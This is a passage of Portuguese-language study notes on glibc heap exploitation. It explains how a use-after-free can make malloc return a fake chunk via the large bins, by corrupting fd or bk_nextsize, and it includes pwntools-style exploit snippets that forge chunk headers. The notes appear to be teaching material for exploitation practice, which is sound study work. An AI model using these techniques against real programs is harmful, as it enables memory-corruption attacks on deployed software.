e pronto! alocamos um chunk falso :D
Obs
Mais difícil que o unsorted bins
Precisa de heap leak
Nao precisa ficar alinhado
Nao precisa de size correto
Pode fazer o mesmo coiso de apontar o bk do chunk_fake para outro chunk falso e assim por diante...
Large bins
Para os largebins, podemos tanto atacar um skipchunk quanto um normal,
portanto a diferença é que para skipchunks, vamos corromper o bk_nextsize e
para os normais o fd
Vamos começar pelos normais
Por ser um safe unlink, nosso chunk precisara passar pelos checks relacionados.
Alem disso malloc checa se size == fd->size, então o chunk falso e o chunk
do UAF precisam ter o mesmo tamanho e possuir as mesmas flags (ex: 0x401)!
(macro: CHUNKSIZE_NOMASK)
- fake size = uaf size
- fd e bk validos safe unlink
- chunk.fd.bk -> chunk
- chunk.bk.fd -> chunk
- Basta colocar os 2 como o endereço do chunk falso
- fd_nextsize = 0
- se ele for NULL, o chunk NAO sera considerado skip
- se fd_nextsize != 0 e GLIBC > 2.21:
- fd_nextsize e bk_nextsize precisariam passar safe unlink
- E por ultimo, o chunk do UAF nao pode ser o ultimo do largebin
Seguindo o exemplo do user:
chunk_A = malloc(0x3f8)
malloc(0x18) # Previvir consolidação A B
chunk_B = malloc(0x3f8)
malloc(0x18) # Previvir consolidação B TOP
free(chunk_A)
free(chunk_B)
change_username(flat(
0,
0x401,#size
elf.sym.username,#fd
elf.sym.username,#bk
0,#fd_nextsize
0,#bk_nextsize
))
malloc( 0x418 ) # sort chunk_A -> large 0x400
edit_chunk_A(p64(elf.sym.username))# UAF Corromper fd
chunk_A = malloc(TAMANHO CHUNK_A)
chunk_FAKE = malloc(TAMANHO CHUNK_A))
bk_nextsize
Agora, para fazer o mesmo ataque por meio do bk_nextsize, basta trocar por:
edit_chunk_A(flat(0,0,0,elf.sym.username))# UAF Corromper bk_nextsize
Uma vantagem, é que o chunk falso, por se assumir a operação de remainder, pode ter um tamanho menor (ou ate mesmo MAIOR) que o chunk do UAF
Alem disso, nao precisamos do chunk_B, com o chunk do UAF podendo ser o ultimo.
chunk_A = malloc(0x3f8)
malloc(0x18) # Previvir consolidação A B
chunk_B = malloc(0x3f8)
malloc(0x18) # Previvir consolidação B TOP
free(chunk_A)
free(chunk_B)
change_username(flat(
0,
0x501,#size
elf.sym.username,#fd
elf.sym.username,#bk
0,#fd_nextsize
0,#bk_nextsize
))
malloc( 0x418 ) # sort chunk_A -> large 0x400
edit_chunk_A(flat(0,0,0,elf.sym.username))# UAF Corromper bk_nextsize
chunk_A = malloc(TAMANHO CHUNK_A)
chunk_FAKE = malloc(TAMANHO CHUNK_A))
Linux Internals
Prerequisitos
Tanto coisas que eu ja comentei nesse livrinho quanto coisas que deu preguiça.. . hehe
- Loader, Linker, GOT e PLT
- Syscalls
- Signals e Processos